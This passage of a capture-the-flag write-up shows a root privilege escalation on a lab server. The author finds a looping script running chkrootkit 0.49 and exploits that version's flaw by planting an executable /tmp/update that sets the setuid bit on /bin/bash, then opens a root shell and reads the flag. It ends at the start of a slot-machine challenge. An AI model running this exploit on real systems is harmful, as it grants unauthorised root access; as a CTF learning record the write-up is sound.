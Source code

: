 ##### Challenge Description
```
You're almost there, finish the job and root the server.
```

- now for root:
- do some initial enum and find a script being ran in /opt/run_scan.sh

```bash
pelican_internal@b2054d61c8b4:~$ cat /opt/run_scan.sh 
#!/bin/bash

while true; do
    date > /var/log/recent.log
    /usr/bin/clamscan -r /home/pelican_internal >> /var/log/recent.log 2>&1
    /usr/sbin/chkrootkit >> /var/log/recent.log 2>&1
    sleep 15 
done
```

- check the commands that are running and see that chkrootkit is being ran, i check its version

```bash
pelican_internal@b2054d61c8b4:~$ chkrootkit -V
chkrootkit version 0.49
```

- this verison is vulnerable and all i have to do is add a file in /tmp called update with a payload, wait sometime and ill get root:

```
pelican_internal@b2054d61c8b4:/tmp$ touch update
pelican_internal@b2054d61c8b4:/tmp$ echo "chmod +s /bin/bash" > update
pelican_internal@b2054d61c8b4:/tmp$ chmod +x update
pelican_internal@b2054d61c8b4:/tmp$ bash -p
bash-5.0# cd /root
bash-5.0# cat root_flag.txt 
PELICAN{7h3-7ru3-807m4573r}
```

```
PELICAN{7h3-7ru3-807m4573r}
```

### Vegas

##### Challenge Description
```
The Pelicans are hosting an online gambling platform, can you cash out?
```

- this challenge involved a slot machine and the win condition is to get 5 white flags
